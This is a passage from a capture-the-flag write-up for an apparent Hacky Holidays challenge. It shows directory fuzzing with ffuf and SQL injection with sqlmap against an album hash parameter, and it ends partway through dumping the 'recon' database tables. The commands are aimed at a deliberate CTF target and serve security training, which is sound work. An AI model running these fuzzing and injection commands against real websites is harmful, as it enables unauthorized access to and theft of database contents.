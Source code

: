 The first page tells us there is an API in development but not much more. Fuzzing the url `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/` doesn't really much except confirming there is, in fact, an endpoint under `api/`:
```bash
ffuf -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

api/experiments         [Status: 401, Size: 64, Words: 9, Lines: 1] (false positive, hurr)
api                     [Status: 200, Size: 2390, Words: 888, Lines: 54]
picture                 [Status: 200, Size: 21, Words: 3, Lines: 1]
uploads                 [Status: 403, Size: 145, Words: 3, Lines: 7]
```
{F1138530}

It tells us there are a bunch of status codes but not much else... Fuzzing `r3c0n_server_4fdk59/api/` gives us a whole lot of 401s - literally anything is a 401 under `api/` -  and just about nothing else... Well, it does tell us it's probably because we are coming from the wrong IP, so let's see if we can find some SSRF or other vulnerabilities.

Just for the sake of it, let's also run sqlmap on whatever we find.

Inspecting the first page with the album links tells us they point to `album?hash=HASHVALUE` [example](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k)

Trying to decode the hashes gave nothing, so let's go ahead with sqlmap:
```bash
sqlmap -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k --dbs
[...]
[14:52:35] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] recon
```

So it's vulnerable, let's enumerate the `recon` database:
```bash
sqlmap -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k -D recon --tables
[...]
[14:53:50] [INFO] fetching tables for database: 'recon'
Database: recon
[2 tables]
+-------+
| album |
| photo |
+-------+
```

Dumping them gives the following information:
```mysql
Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+

Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
```